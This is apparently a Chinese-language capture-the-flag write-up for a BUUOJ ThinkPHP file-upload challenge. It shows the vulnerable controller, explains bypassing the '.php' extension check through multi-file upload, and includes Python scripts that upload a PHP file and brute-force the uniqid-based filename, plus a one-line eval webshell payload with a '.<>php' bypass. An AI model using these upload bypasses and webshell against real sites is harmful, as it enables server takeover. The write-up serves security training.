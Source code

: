 ```yaml
---
Author: Coder-LYQ
Date: 2020-12-27
---
```


## 思路

1.打开网页，首先是一段php源码，如下：

```php
 <?php 
    namespace Home\Controller; 
	use Think\Controller; 
	class IndexController extends Controller {   
        public function index()   
        {     
            show_source(__FILE__);   
        }   
        public function upload()   
        {     
            $uploadFile = $_FILES['file'] ;         
            if (strstr(strtolower($uploadFile['name']), ".php") ) {       
                return false;     
            }         
            $upload = new \Think\Upload();// 实例化上传类     
            $upload->maxSize = 4096 ;// 设置附件上传大小     
            $upload->allowExts = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型     
            $upload->rootPath = './Public/Uploads/';// 设置附件上传目录     
            $upload->savePath = '';// 设置附件上传子目录     
            $info = $upload->upload() ;  //此处存在漏洞   
            if(!$info) {// 上传错误提示错误信息      
                $this->error($upload->getError());      
                return;     
            }else{// 上传成功 获取上传文件信息      
                $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
                echo json_encode(array("url"=>$url,"success"=>1));     
            }   
        } 
    } 
```

分析该段代码：

- 首先会获取上传文件的文件名，并将其转化为小写，判断是否包含.php。

- 限制了上传文件的最大大小：4096

- 限制了可以上传的文件类型：jpg、gif、png、jpeg

- thinkphp**默认上传路径**是/home/index/upload

- 这里调用**upload()函数**，该函数存在一个漏洞，

  在不传参时为多文件上传，整个$FILES数组的文件都会上传保存，但该题只限制了$_FILES[file]的上传后缀，因此就可以通过上传多文件绕过php后缀限制。
  
  

2. 该题与常规的有文件上传按钮的题目不同，需要自己构建POST请求，上传文件。--》可以写python脚本实现

   > $_FILES是一个预定义的数组，用来获取通过POST方法上传文件的相关信息。
   >
   > 单个文件上传--》$_FILES为二维数组
   >
   > 多个文件上传--》$_FILES为三维数组

   利用python进行POST请求上传文件，格式如下：

   ![img](./images/202011201118394.png)

3. thinkphp上传文件时，文件名是按顺序递增的

采用下面的脚本，上传多个文件，来绕过对文件后缀名的检测

> 查看thinkphp源码得知文件名是通过uniqid函数生成的，uniqid函数是基于**以微秒计**的当前时间计算的，两个同时上传生成的文件名相差不会太远，因此可以在两个文件名之间进行暴力遍历，找到上传的木马文件的文件名。
> 除了此方法外，还可以使用`<>`绕过，载荷为`res=requests.post(url,files={'file':('webshell.<>php','<?php @eval($_POST["shell"]); ?>')})`

```python
import requests

url = 'http://7a4fb2e4-7ba4-49b0-a137-450ceea340d1.node3.buuoj.cn/index.php/home/index/upload'
file1 = {'file':open('special_dict.txt','r')}
file2 = {'file[]':open('test.php','r')}//upload()不传参时即是批量上传所以用[]

r = requests.post(url,files = file1)
print(r.text)

r = requests.post(url,files = file2)
print(r.text)

r = requests.post(url, files = file1)
print(r.text)
```

4. 可以看到上传的两个txt文件的文件名前几位都相同，只有最后五位不同，因此可以只遍历后五位，找出上传的木马php文件的文件名，然后再进行连接。

<img src="./images/image-20201227212507106.png" alt="image-20201227212507106" style="zoom:50%;" />

	进行遍历的脚本为：

```python
dir ='abcdef0123456789'
for i in dir:
    for j in dir:
        for k in dir:
            for x in dir:
                for y in dir:
                    url = 'http://e2a3bb2f-2911-4b51-b679-0d15f7f3899b.node3.buuoj.cn/Public/Uploads/2020-12-27/5fe88b1b{}{}{}{}{}'.format(i,j,k,x,y)
                    #print(url)
                    print("next")
                    r = requests.get(url)
                    if r.status_code == 200:
                        print(url)
                        break
```



## 总结

- 本题主要考查的是对thinkphp的upload文件上传漏洞
  - 上传多个文件，即可绕过对文件后缀名的检测，成功上传php文件
  - upload函数默认上传的文件路径为/home/index/upload
  - thinkphp上传文件后会修改文件名，根据上传时间生成，因此同时上传的文件一般文件名比较接近。